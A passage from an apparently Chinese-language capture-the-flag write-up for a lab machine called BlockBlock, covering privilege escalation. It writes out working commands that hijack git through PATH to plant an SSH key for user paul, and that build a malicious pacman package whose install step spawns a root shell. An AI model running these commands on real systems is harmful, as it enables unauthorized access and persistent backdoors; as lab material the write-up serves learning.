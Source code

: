 这里发现初始化项目的时候还会调用 git，同时 sudo -l 也没有对环境变量进行重置，因此可以劫持 git

```Plain Text
cd /tmp; ssh-keygen -t rsa -q -P "" -f ~/.ssh/id_rsa; echo '#!/bin/bash' > /tmp/git; echo "mkdir ~/.ssh" >> /tmp/git; echo "echo `cat ~/.ssh/id_rsa.pub` >> ~/.ssh/authorized_keys" >> /tmp/git; chmod +x /tmp/git; export PATH=/tmp:$PATH; sudo -u paul /home/paul/.foundry/bin/forge init /tmp/test
ssh paul@127.0.0.1
```

![image-20241126232605439.png](BlockBlock/image-20241126232605439.png)

## Shell as Root

有 pacman 的 sudo 权限，可以先打包一个恶意的 pacman 安装包，在安装过程中执行命令。

> [https://www.ovios.org/pkgbuild-example](https://www.ovios.org/pkgbuild-example)

```Plain Text
sudo pacman -R pwned --noconfirm
cd; rm -rf /tmp/good; mkdir /tmp/good; cd /tmp/good
cat << EOF > PKGBUILD
pkgname=pwned
pkgver=1.2
pkgrel=3
arch=(x86_64)
package() {
	bash
}
EOF
makepkg -s
sudo pacman -U pwned-1.2-3-x86_64.pkg.tar.zst --noconfirm
```
